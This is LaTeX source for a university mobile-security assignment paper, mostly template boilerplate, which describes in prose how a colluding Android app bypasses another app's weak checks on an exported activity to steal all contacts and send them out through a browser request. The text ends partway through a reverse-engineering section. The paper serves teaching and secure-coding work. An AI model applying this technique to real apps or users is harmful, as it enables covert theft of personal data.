%% bare_conf_compsoc.tex
%% V1.4a
%% 2014/09/17
%% by Michael Shell
%% See:
%% http://www.michaelshell.org/
%% for current contact information.
%%
%% This is a skeleton file demonstrating the use of IEEEtran.cls
%% (requires IEEEtran.cls version 1.8s or later) with an IEEE Computer
%% Society conference paper.
%%
%% Support sites:
%% http://www.michaelshell.org/tex/ieeetran/
%% http://www.ctan.org/tex-archive/macros/latex/contrib/IEEEtran/
%% and
%% http://www.ieee.org/

%%*************************************************************************
%% Legal Notice:
%% This code is offered as-is without any warranty either expressed or
%% implied; without even the implied warranty of MERCHANTABILITY or
%% FITNESS FOR A PARTICULAR PURPOSE! 
%% User assumes all risk.
%% In no event shall IEEE or any contributor to this code be liable for
%% any damages or losses, including, but not limited to, incidental,
%% consequential, or any other damages, resulting from the use or misuse
%% of any information contained here.
%%
%% All comments are the opinions of their respective authors and are not
%% necessarily endorsed by the IEEE.
%%
%% This work is distributed under the LaTeX Project Public License (LPPL)
%% ( http://www.latex-project.org/ ) version 1.3, and may be freely used,
%% distributed and modified. A copy of the LPPL, version 1.3, is included
%% in the base LaTeX documentation of all distributions of LaTeX released
%% 2003/12/01 or later.
%% Retain all contribution notices and credits.
%% ** Modified files should be clearly indicated as such, including  **
%% ** renaming them and changing author support contact information. **
%%
%% File list of work: IEEEtran.cls, IEEEtran_HOWTO.pdf, bare_adv.tex,
%%                    bare_conf.tex, bare_jrnl.tex, bare_conf_compsoc.tex,
%%                    bare_jrnl_compsoc.tex, bare_jrnl_transmag.tex
%%*************************************************************************


% *** Authors should verify (and, if needed, correct) their LaTeX system  ***
% *** with the testflow diagnostic prior to trusting their LaTeX platform ***
% *** with production work. IEEE's font choices and paper sizes can       ***
% *** trigger bugs that do not appear when using other class files.       ***                          ***
% The testflow support page is at:
% http://www.michaelshell.org/tex/testflow/



\documentclass[conference,compsoc]{IEEEtran}
% Some/most Computer Society conferences require the compsoc mode option,
% but others may want the standard conference format.
%
% If IEEEtran.cls has not been installed into the LaTeX system files,
% manually specify the path to it like:
% \documentclass[conference,compsoc]{../sty/IEEEtran}





% Some very useful LaTeX packages include:
% (uncomment the ones you want to load)


% *** MISC UTILITY PACKAGES ***
%
%\usepackage{ifpdf}
% Heiko Oberdiek's ifpdf.sty is very useful if you need conditional
% compilation based on whether the output is pdf or dvi.
% usage:
% \ifpdf
%   % pdf code
% \else
%   % dvi code
% \fi
% The latest version of ifpdf.sty can be obtained from:
% http://www.ctan.org/tex-archive/macros/latex/contrib/oberdiek/
% Also, note that IEEEtran.cls V1.7 and later provides a builtin
% \ifCLASSINFOpdf conditional that works the same way.
% When switching from latex to pdflatex and vice-versa, the compiler may
% have to be run twice to clear warning/error messages.






% *** CITATION PACKAGES ***
%
\ifCLASSOPTIONcompsoc
  % IEEE Computer Society needs nocompress option
  % requires cite.sty v4.0 or later (November 2003)
  \usepackage[nocompress]{cite}
\else
  % normal IEEE
  \usepackage{cite}
\fi
% cite.sty was written by Donald Arseneau
% V1.6 and later of IEEEtran pre-defines the format of the cite.sty package
% \cite{} output to follow that of IEEE. Loading the cite package will
% result in citation numbers being automatically sorted and properly
% "compressed/ranged". e.g., [1], [9], [2], [7], [5], [6] without using
% cite.sty will become [1], [2], [5]--[7], [9] using cite.sty. cite.sty's
% \cite will automatically add leading space, if needed. Use cite.sty's
% noadjust option (cite.sty V3.8 and later) if you want to turn this off
% such as if a citation ever needs to be enclosed in parenthesis.
% cite.sty is already installed on most LaTeX systems. Be sure and use
% version 5.0 (2009-03-20) and later if using hyperref.sty.
% The latest version can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/cite/
% The documentation is contained in the cite.sty file itself.
%
% Note that some packages require special options to format as the Computer
% Society requires. In particular, Computer Society  papers do not use
% compressed citation ranges as is done in typical IEEE papers
% (e.g., [1]-[4]). Instead, they list every citation separately in order
% (e.g., [1], [2], [3], [4]). To get the latter we need to load the cite
% package with the nocompress option which is supported by cite.sty v4.0
% and later.





% *** GRAPHICS RELATED PACKAGES ***
%
\ifCLASSINFOpdf
\usepackage[pdftex]{graphicx}
  % declare the path(s) where your graphic files are
\graphicspath{{./png}}
  % and their extensions so you won't have to specify these with
  % every instance of \includegraphics
\DeclareGraphicsExtensions{.pdf,.jpeg,.png}
\else
  % or other class option (dvipsone, dvipdf, if not using dvips). graphicx
  % will default to the driver specified in the system graphics.cfg if no
  % driver is specified.
  % \usepackage[dvips]{graphicx}
  % declare the path(s) where your graphic files are
  % \graphicspath{{../eps/}}
  % and their extensions so you won't have to specify these with
  % every instance of \includegraphics
  % \DeclareGraphicsExtensions{.eps}
\fi
% graphicx was written by David Carlisle and Sebastian Rahtz. It is
% required if you want graphics, photos, etc. graphicx.sty is already
% installed on most LaTeX systems. The latest version and documentation
% can be obtained at: 
% http://www.ctan.org/tex-archive/macros/latex/required/graphics/
% Another good source of documentation is "Using Imported Graphics in
% LaTeX2e" by Keith Reckdahl which can be found at:
% http://www.ctan.org/tex-archive/info/epslatex/
%
% latex, and pdflatex in dvi mode, support graphics in encapsulated
% postscript (.eps) format. pdflatex in pdf mode supports graphics
% in .pdf, .jpeg, .png and .mps (metapost) formats. Users should ensure
% that all non-photo figures use a vector format (.eps, .pdf, .mps) and
% not a bitmapped formats (.jpeg, .png). IEEE frowns on bitmapped formats
% which can result in "jaggedy"/blurry rendering of lines and letters as
% well as large increases in file sizes.
%
% You can find documentation about the pdfTeX application at:
% http://www.tug.org/applications/pdftex





% *** MATH PACKAGES ***
%
%\usepackage[cmex10]{amsmath}
% A popular package from the American Mathematical Society that provides
% many useful and powerful commands for dealing with mathematics. If using
% it, be sure to load this package with the cmex10 option to ensure that
% only type 1 fonts will utilized at all point sizes. Without this option,
% it is possible that some math symbols, particularly those within
% footnotes, will be rendered in bitmap form which will result in a
% document that can not be IEEE Xplore compliant!
%
% Also, note that the amsmath package sets \interdisplaylinepenalty to 10000
% thus preventing page breaks from occurring within multiline equations. Use:
%\interdisplaylinepenalty=2500
% after loading amsmath to restore such page breaks as IEEEtran.cls normally
% does. amsmath.sty is already installed on most LaTeX systems. The latest
% version and documentation can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/required/amslatex/math/





% *** SPECIALIZED LIST PACKAGES ***
%
%\usepackage{algorithmic}
% algorithmic.sty was written by Peter Williams and Rogerio Brito.
% This package provides an algorithmic environment fo describing algorithms.
% You can use the algorithmic environment in-text or within a figure
% environment to provide for a floating algorithm. Do NOT use the algorithm
% floating environment provided by algorithm.sty (by the same authors) or
% algorithm2e.sty (by Christophe Fiorio) as IEEE does not use dedicated
% algorithm float types and packages that provide these will not provide
% correct IEEE style captions. The latest version and documentation of
% algorithmic.sty can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/algorithms/
% There is also a support site at:
% http://algorithms.berlios.de/index.html
% Also of interest may be the (relatively newer and more customizable)
% algorithmicx.sty package by Szasz Janos:
% http://www.ctan.org/tex-archive/macros/latex/contrib/algorithmicx/




% *** ALIGNMENT PACKAGES ***
%
%\usepackage{array}
% Frank Mittelbach's and David Carlisle's array.sty patches and improves
% the standard LaTeX2e array and tabular environments to provide better
% appearance and additional user controls. As the default LaTeX2e table
% generation code is lacking to the point of almost being broken with
% respect to the quality of the end results, all users are strongly
% advised to use an enhanced (at the very least that provided by array.sty)
% set of table tools. array.sty is already installed on most systems. The
% latest version and documentation can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/required/tools/


% IEEEtran contains the IEEEeqnarray family of commands that can be used to
% generate multiline equations as well as matrices, tables, etc., of high
% quality.




% *** SUBFIGURE PACKAGES ***
%\ifCLASSOPTIONcompsoc
%  \usepackage[caption=false,font=footnotesize,labelfont=sf,textfont=sf]{subfig}
%\else
%  \usepackage[caption=false,font=footnotesize]{subfig}
%\fi
% subfig.sty, written by Steven Douglas Cochran, is the modern replacement
% for subfigure.sty, the latter of which is no longer maintained and is
% incompatible with some LaTeX packages including fixltx2e. However,
% subfig.sty requires and automatically loads Axel Sommerfeldt's caption.sty
% which will override IEEEtran.cls' handling of captions and this will result
% in non-IEEE style figure/table captions. To prevent this problem, be sure
% and invoke subfig.sty's "caption=false" package option (available since
% subfig.sty version 1.3, 2005/06/28) as this is will preserve IEEEtran.cls
% handling of captions.
% Note that the Computer Society format requires a sans serif font rather
% than the serif font used in traditional IEEE formatting and thus the need
% to invoke different subfig.sty package options depending on whether
% compsoc mode has been enabled.
%
% The latest version and documentation of subfig.sty can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/subfig/




% *** FLOAT PACKAGES ***
%
%\usepackage{fixltx2e}
% fixltx2e, the successor to the earlier fix2col.sty, was written by
% Frank Mittelbach and David Carlisle. This package corrects a few problems
% in the LaTeX2e kernel, the most notable of which is that in current
% LaTeX2e releases, the ordering of single and double column floats is not
% guaranteed to be preserved. Thus, an unpatched LaTeX2e can allow a
% single column figure to be placed prior to an earlier double column
% figure. The latest version and documentation can be found at:
% http://www.ctan.org/tex-archive/macros/latex/base/


%\usepackage{stfloats}
% stfloats.sty was written by Sigitas Tolusis. This package gives LaTeX2e
% the ability to do double column floats at the bottom of the page as well
% as the top. (e.g., "\begin{figure*}[!b]" is not normally possible in
% LaTeX2e). It also provides a command:
%\fnbelowfloat
% to enable the placement of footnotes below bottom floats (the standard
% LaTeX2e kernel puts them above bottom floats). This is an invasive package
% which rewrites many portions of the LaTeX2e float routines. It may not work
% with other packages that modify the LaTeX2e float routines. The latest
% version and documentation can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/sttools/
% Do not use the stfloats baselinefloat ability as IEEE does not allow
% \baselineskip to stretch. Authors submitting work to the IEEE should note
% that IEEE rarely uses double column equations and that authors should try
% to avoid such use. Do not be tempted to use the cuted.sty or midfloat.sty
% packages (also by Sigitas Tolusis) as IEEE does not format its papers in
% such ways.
% Do not attempt to use stfloats with fixltx2e as they are incompatible.
% Instead, use Morten Hogholm'a dblfloatfix which combines the features
% of both fixltx2e and stfloats:
%
\usepackage{dblfloatfix}
% The latest version can be found at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/dblfloatfix/




% *** PDF, URL AND HYPERLINK PACKAGES ***
%
%\usepackage{url}
% url.sty was written by Donald Arseneau. It provides better support for
% handling and breaking URLs. url.sty is already installed on most LaTeX
% systems. The latest version and documentation can be obtained at:
% http://www.ctan.org/tex-archive/macros/latex/contrib/url/
% Basically, \url{my_url_here}.


% *** Do not adjust lengths that control margins, column widths, etc. ***
% *** Do not use packages that alter fonts (such as pslatex).         ***
% There should be no need to do such things with IEEEtran.cls V1.6 and later.
% (Unless specifically asked to do so by the journal or conference you plan
% to submit to, of course. )


% correct bad hyphenation here
\hyphenation{op-tical net-works semi-conduc-tor}
















\usepackage{framed}
\usepackage{fancyvrb}
\usepackage{listings}
\usepackage[all]{nowidow}
\lstset{
	frame=single,
	basicstyle=\ttfamily,
	breaklines
}
\usepackage{flushend}

\begin{document}
\title{14-829: Mobile Security - Fall 2015 - Assignment 2}
\author{\IEEEauthorblockN{Michael Appel}
\IEEEauthorblockA{Information Networking Institute\\
Carnegie Mellon University\\
Pittsburgh, PA\\
Email: moappel@cmu.edu}}
% make the title area
\maketitle














% As a general rule, do not put math, special symbols or citations
% in the abstract
\begin{abstract}
Android apps are an extremely popular product for programmers to try and create the next big thing. They also have unprecedented access to our personal data. The combination of these leads to violations of confidentiality without explicitly violating the Android security model. This paper shows how innocent programmatic mistakes can open the door for malicious apps to steal and exfiltrate personal information without using any permissions or Android exploits.
\end{abstract}


\section{Introduction}
Market analysts have put the Google Play Store's revenue at around \$4 billion, and note that developers keep around 70\% of app sales\cite{Wallenstein}. Given this ecosystem, and the desire for developers to succeed financially there is a dash towards producing the next big hit. This leads to inexperienced programmers and rushed development making mistakes when creating these apps. This can lead to latent bugs in apps available to consumers, especially if these apps are published in 3rd party sources and lack even the Google Play Store's quality control\cite{Google:LaunchChecklist}.
\newline
\indent This paper uses the app, SuperAwesomeContacts (SAC), as a case study to demonstrate the vulnerabilities in poor coding, and how they can be successfully exploited. This is especially dangerous because the attack succeeds, even using the latest Android API (Android M or number 23), without raising any security alerts or violating any explicit rules. The first section details what the exploit is and how it can be used by demonstrating a colluding app, called Wee-Strom, and its attack. The second section shows how the exploit can still be reverse engineered given only the APK protected by ProGuard\cite{Google:ProGuard}. Finally, the third section in this case study provides patches to the SAC that resolve the vulnerabilities.

\section{Exploit}
It is impossible to know if SAC was created in a hurry, programmed by an inexperienced developer, or was created maliciously to leak personally identifiable information (PII). However, choices made during development weakened the SAC's security posture, which allows the colluding app attack. Specifically, SAC exposes methods to all other apps, which should remain private, and poorly sanitizes the input received.
\newline
\indent The first issue arises in SAC's AndroidManifest.xml file, which is a required file for every app and details information needed by the Android OS to run the program\cite{Google:AppManifest}. The manifest lists the subclasses of Activity that are in the app. If they are not listed then Android can't run them \cite{Google:ActivityElement}. SAC defines its package name as \texttt{"edu.cmu.wnss.\-funktastic.\-superawesomecontacts"}, and for brevity in this paper this is assumed to start all fully qualified names of activities.
\newline
\indent	SAC lists several activities, but the one used in this exploit is \texttt{".FindActivity"}. SAC sets the \texttt{android:exported} element to \texttt{"true"}. When \texttt{exported} is \texttt{true} the activity can be launched by other applications regardless of the calling application's user id\cite{Google:ActivityElement}. Previous research requires a broadcast intent and receiver, respectively in the colluding source and sink apps\cite{marforio2010application}. SAC lacks these obvious signaling mechanism, but they are not needed when \texttt{android:exported="true"}. The activity manager will act as an intermediary in this case, and listen for calls to start the \texttt{".FindActivity"}.
\newline
\indent The malicious colluding app, Wee-Strom, uses \texttt{startActivityForResult} in order to start the \texttt{".FindActivity"}. This allows Wee-Strom to handle the result by implementing the callback method \texttt{onActivityResult}\cite{Google:startActivityForResult}. This succeeds because the activity is exported by SAC, and \texttt{startActivityForResult} does not require a permission. This does not violate any rule, but does require some analysis of the source code to succeed.
\newline
\indent In order for this to work, the behavior of SAC is studied to understand what it expects of the caller and what it returns as a result. SAC contains several string constants, listed in figure~\ref{fig:StringConstants}, which are used as checks in the code. SAC performs very basic authentication for the exported method, which is easily bypassed. In \texttt{FindActivity.onCreate}, the code checks that the Intent starting it satisfies several requirements, including that the type of the Intent is \texttt{FIND\_CONTACT\_INTENT\_TYPE}. Also, it checks that the calling activity class name is the same as its parent in the SAC package, \texttt{".HomeActivity"}. SAC's \texttt{FindActivity} is meant to search for a contact by a string. Intents carry this extra data as key-value pairs. SAC sets the key for the query to \texttt{FIND\_CONTACT\_EXTRA\_KEY}. 
\newline
\indent These values are easily duped in Wee-Strom as string constants. Android apps can choose arbitrary names for their activities. Wee-strom sets the name for its only activity to \texttt{".HomeActivity"} since this is all SAC checks it will work for authentication. See figure~\ref{fig:WSManifest} for Wee-Strom's manifest for this, and to show it does not use any permissions.
\newline
\indent Figure~\ref{fig:StromOnCreate} shows Wee-Strom's \texttt{onCreate} method, which is called when the app is started or resumed. The Intent is created with the fully qualified name of SAC, which tells the Activity Manager what to start. To bypass the primitive authentication in SAC, the Intent's type is set to the \texttt{FIND\_CONTACT\_INTENT\_TYPE}, and the query string value is set with the key \texttt{FIND\_CONTACT\_EXTRA\_KEY}. Note that the query string is a single space character.
\newline
\indent The final flaw in SAC relates to the single space character query string. In SAC's \texttt{PopulateContactList.populateContacts}, which is called by the app to obtain and list the phone's contacts, the query string is tokenized to find names to search for. However, if the list of tokens is empty, then the method assumes there is no query string and returns the entire contact list. The developer probably did this to avoid creating two functions for a single search and a complete list. Thus, Wee-Strom is able to pass in some nonsense string, which does not tokenize but is not \texttt{null}, and get the entire contact list in return. The initial screen for Wee-Strom is shown in figure~\ref{Screenshot:WSBefore}, and the information stolen from SAC is shown in figure~\ref{Screenshot:WSAfter}. The toast in figure~\ref{Screenshot:WSBefore} is displaying the \texttt{shortClassName} expected by \texttt{FindActivity}. Not shown is the browser opening a web page to a generic Apache web server test page.


\begin{figure}

\includegraphics[width=\columnwidth]{strom.png}
\caption{First screen of Wee-Strom before exploit}
\label{Screenshot:WSBefore}
\end{figure}
\begin{figure}

\includegraphics[width=\columnwidth]{strom2.png}
\caption{Screen of Wee-Strom after exploit}
\label{Screenshot:WSAfter}
\end{figure}

\indent The code in figure~\ref{fig:StromOnResult} handles the result sent to Wee-Strom from SAC. The contacts are retrieved from the result by using the string constant, \texttt{FIND\_CONTACT\_EXTRA\_RESULTS}, which was found through static analysis. The results are displayed in Wee-Strom's GUI in this code before being exfiltrated, but in a real scenario this would likely be run as an invisible service to avoid detection. The exfiltration uses the technique detailed by Egners et al\cite{Egners:2012:MAP:2360018.2360209} to broadcast a \texttt{VIEW} Intent, which launches Android's web browser (the handler of URL types). The request in this proof of concept uses standard URL encoding to ensure the contacts string is safely transmitted, but also reversible. This is close to plain-text transmission. Further obfuscation or \texttt{TSL/SSL} could be used to prevent detection by sniffing. The request in the web server's \texttt{access.log} is shown in figure~\ref{fig:accesslog}.

\begin{figure*}[tbp]
\begin{lstlisting}
public static final String FIND_CONTACT_INTENT_TYPE = "edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.intent.type";
public static final String FIND_CONTACT_EXTRA_KEY = "edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.findQueryString";
public static final String FIND_CONTACT_EXTRA_RESULTS = "edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.queryResults";
\end{lstlisting}
\caption{SAC String Constants}
\label{fig:StringConstants}
\end{figure*}







\section{Byte-Code Analysis}
If the source code is not present the task to exploit the app is more difficult, but not impossible. There are numerous tools created by the Android community to do exactly this. To simulate the reverse engineering we will first extract basic information about the SAC app, and then dive deeper in static analysis using decompilation. The SAC source code was compiled with the ProGuard default rule set.

\subsection{Extracting the Manifest}
First, the basics of the app are sought in the AndroidManifest. However, the manifest is contained within the APK, which is a ZIP compressed JAR file. Therefore we must extract it with a tool like Apktool\cite{apktool}. Even on our ProGuard protected file, Apktool is able to extract the manifest correctly. Reading this we could see the export vulnerability detailed in section 1. Now that there is a noted vulnerability, the code should be examined.

\subsection{Decompilation}
In order to more quickly perform static analysis the other files from Apktool are ignored, and instead we focus on decompiling the byte code to readable source. Java (the major language of Android apps) is more easily and correctly decompiled because of the large amount of object information contained in the byte-code\cite{Miecznikowski:2002:DJB:647478.727938}.
\newline
\indent Android programs are written and compiled in Java, but are then translated to Dalvik byte-code in \texttt{.DEX} files. The original Dalvik virtual machine (DVM) provided several benefits for mobile devices, but has since been replaced by the Android Run-Time (ART). Both use \texttt{.DEX} files and Dalvik byte-code\cite{ARTDVM}. So first, the \texttt{.DEX} files inside the \texttt{APK} are converted back into Java byte code (regular \texttt{.class} files) with dex2jar\cite{dex2jar}.
\newline
